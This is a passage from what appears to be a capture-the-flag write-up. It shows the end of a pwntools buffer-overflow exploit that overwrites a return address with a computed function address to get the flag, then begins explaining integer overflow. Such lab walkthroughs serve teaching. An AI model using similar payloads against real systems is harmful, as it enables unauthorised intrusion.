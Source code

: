 ```
log.info('Binary Base: ' + hex(exe.base))

### GET FLAG ###
flag = exe.sym.gets_h + exe.base
payload = b'A' * 12 + p32(flag) + b'\x80'       # b'\x80' - select any byte
p.sendlineafter(b'2024: ', payload)

p.interactive()
```
![alt text](images/image-6-4.png)
---

### Integer Overflow & Signal

> Integers have a maximum size, and if you go past the maximum size, it becomes a small number (either negative or zero).
>
> For example, a single (unsigned) byte has a maximum value of 255. Adding one to the byte will set the value to 0, not 256.
>
> The largest (unsigned) values for ints (4 bytes) and longs (8 bytes) are 4294967295 and 18446744073709551615 respectively. (roughly 2^32 and 2^64).
